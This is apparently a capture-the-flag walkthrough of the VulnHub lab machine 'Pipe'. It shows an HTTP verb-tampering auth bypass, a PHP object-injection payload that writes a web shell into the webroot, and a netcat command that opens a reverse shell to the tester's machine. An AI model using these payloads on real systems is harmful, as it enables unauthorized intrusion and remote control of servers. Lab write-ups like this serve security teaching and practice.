










# Pipe

| Name | /dev/random: Pipe |
| --- | --- |
| Date release | 2 Oct 2015 |
| Author | Sagi- |
| Link | https://www.vulnhub.com/entry/devrandom-pipe,124/ |

## Machine Info
Machine IP: 192.168.26.130

## Start of enumeration

GET requests to http://192.168.26.130/index.php are redirected to `index.php` and asks for credentials.  
Changing the request to POST or even something that does not exist like "GETS", we can bypass and get the `index.php` page.

Looking at the source-code we find an interesting JS file:



Accessing http://192.168.26.130/scriptz/ we can find more files.



The file `log.php.BAK` file seems to be a logger:



Looking back to the `index.php` source-code we can see the parameters that are submitted in the form:



We now intercept the request for “Show Artist Info” in burp:





Decoding the `param` value:



It seems that in this case a `Info` type object is being created. We know that a `Log` object will invoke the logger file and allow us to write to the webroot. We now attempt to tweak the request so that we can write some data to the webroot via the Log object.

## Writing to disk via parameter
Lets attempt to write a simple php web shell to `/scriptz/rce.php`:

```python
param=O:3:"Log":2:{s:8:"filename";s:29:"/var/www/html/scriptz/rce.php";s:4:"data";s:41:"<?php$cmd=$_GET['cmd'];system($cmd);?>";}
```

It works! Our `rce.php` file is there.



## Reaching RCE
The remote command execution can be triggered via http://192.168.26.130/scriptz/rce.php?cmd=id



## Reverse Shell
Getting a reverse shell is trivial:
```
http://192.168.26.130/scriptz/rce.php?cmd=nc 192.168.26.128 4444 -e /bin/bash
```


